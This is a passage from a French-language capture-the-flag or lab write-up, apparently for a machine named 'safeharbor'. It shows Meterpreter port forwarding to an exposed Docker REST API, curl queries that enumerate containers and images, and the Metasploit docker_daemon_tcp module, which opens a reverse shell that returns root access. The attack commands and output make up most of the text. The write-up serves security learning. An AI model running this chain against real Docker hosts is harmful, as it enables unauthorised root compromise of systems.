 Il aura fallut d'abord utiliser la fonctionnalité de port-forwarding sur la session Meterpreter :  

```plain
meterpreter > portfwd add -l 2375 -p 2375 -r 172.20.0.1
[*] Local TCP relay created: :2375 <-> 172.20.0.1:2375
```

Ce port Docker dispose d'une interface REST et j'ai trouvé quelques astuces [sur cette page](https://github.com/carlospolop/hacktricks/blob/master/pentesting/2375-pentesting-docker.md#curl).  

On peut ainsi lister les containers de cette façon :  

```plain
$ curl -s http://127.0.0.1:2375/containers/json | python3 -m json.tool
```

Il suffit de remplacer le mot *containers* par *images* pour obtenir les images existantes. On relève l'image de base Alpine connue pour sa petite taille :  

```javascript
    {
        "Containers": -1,
        "Created": 1548886812,
        "Id": "sha256:98f5f2d17bd1c8ba230ea9a8abc21b8d7fc8727c34a4de62d000f29393cf3089",
        "Labels": null,
        "ParentId": "",
        "RepoDigests": [
            "alpine@sha256:e9a2035f9d0d7cee1cdd445f5bfa0c5c646455ee26f14565dce23cf2d2de7570"
        ],
        "RepoTags": [
            "alpine:3.2"
        ],
        "SharedSize": -1,
        "Size": 5268981,
        "VirtualSize": 5268981
    },
```

Il nous suffit de réutiliser le module Metasploit mais en spécifiant cette fois le bon nom d'image :  

```plain
$ msf6 exploit(linux/http/docker_daemon_tcp) > set DOCKERIMAGE alpine:3.2
DOCKERIMAGE => alpine:3.2
msf6 exploit(linux/http/docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.56.4:7777 
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (38 bytes) to 192.168.56.11
[+] Deleted /etc/cron.d/KzaSSMtN
[+] Deleted /tmp/ETnACBDc
[*] Command shell session 3 opened (192.168.56.4:7777 -> 192.168.56.11:38514 ) at 2021-12-21 17:15:34 +0100

id
uid=0(root) gid=0(root) groups=0(root)
hostname
safeharbor
```

